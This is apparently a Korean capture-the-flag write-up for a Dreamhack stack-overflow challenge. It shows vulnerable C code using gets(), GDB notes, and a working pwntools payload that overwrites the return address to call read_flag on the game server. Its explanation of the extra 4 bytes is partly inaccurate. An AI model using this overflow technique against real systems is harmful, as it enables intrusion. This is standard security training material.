 ```yaml
---
layout: single
title:  "Wargame : basic_exploitation_001"
categories: 정보보안
tag: [python, pwn, hacking]
toc: true
author_profile: true
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


## C 코드 분석


```c

#include <stdio.h>

#include <stdlib.h>

#include <signal.h>

#include <unistd.h>





void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}





void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);



    signal(SIGALRM, alarm_handler);

    alarm(30);

}





void read_flag() {

    system("cat /flag");

}



int main(int argc, char *argv[]) {



    char buf[0x80];



    initialize();

    

    gets(buf);



    return 0;

}

```


### main() 함수 분석


배열을 크기 0x80(128 byte)만큼 할당한다.



initialize() 함수는 입/출력 버퍼를 비활성화시키고, 프로그램의 실행시간을 30초로 제한하는 함수이다.



gets(buf) 부분에서 익스플로잇이 가능하다.



입력값의 크기를 제한하지 않았기 때문에 해당 부분에 취약점이 있는 것을 알 수 있다.



익스플로잇 방법은 gets()부분 입력값으로 128 byte + 4 byte = 132 byte를 아무 의미없는 문자열 입력 후, read_flag() 함수의 주소를 입력하여 read_flag()가 return 되도록 코드를 작성한다.



추가로 4 byte를 입력해 주는 이유는, gets()함수 특성 상 문자열을 입력받은 후 널 종료 문자로 끝나도록 하기 때문에 1 byte가 추가로 할당된다.



추가로 할당된 1 byte는 스택 메모리에 추가적으로 저장될 때 4 byte(1 word)씩 저장되기 때문에 4 byte를 추가로 할당해야 한다.


## GDB 디버깅


가장 먼저 read_flag의 주소를 살펴본다.



GDB 디버깅을 들어가서 info fuc으로 함수의 주소를 추적한다.



밑에서 보는바와 같이 read_flag의 주소는 '0x080485b9' 이다.


![image.png](image/fead_flag 함수 주소.png)


다음으로는, 위에서 설명하였던 4 byte가 추가되는 것을 이해하기 쉽도록 디버깅 모드로 들어가서 확인해 본다.


![image.png](image/4 byte 추가.png)


보다시피, [ebp - 0x80] 에서 할당된 0x80 뿐만 아니라 밑에 add exp, 4 에서 4 byte가 추가로 할당된 것을 볼 수 있다.


## Pwn 코드


```python

from pwn import *



p = remote("host3.dreamhack.games", 11188)



payload = b'A' * 0x80

payload += b'A' * 4

payload += p32(0x080485b9)

# read_flag의 주소를 패킹하여 payload에 더한다.



p.sendline(payload)

p.interactive()

```

![image.png](/image/basic_ex_shellcode.png)
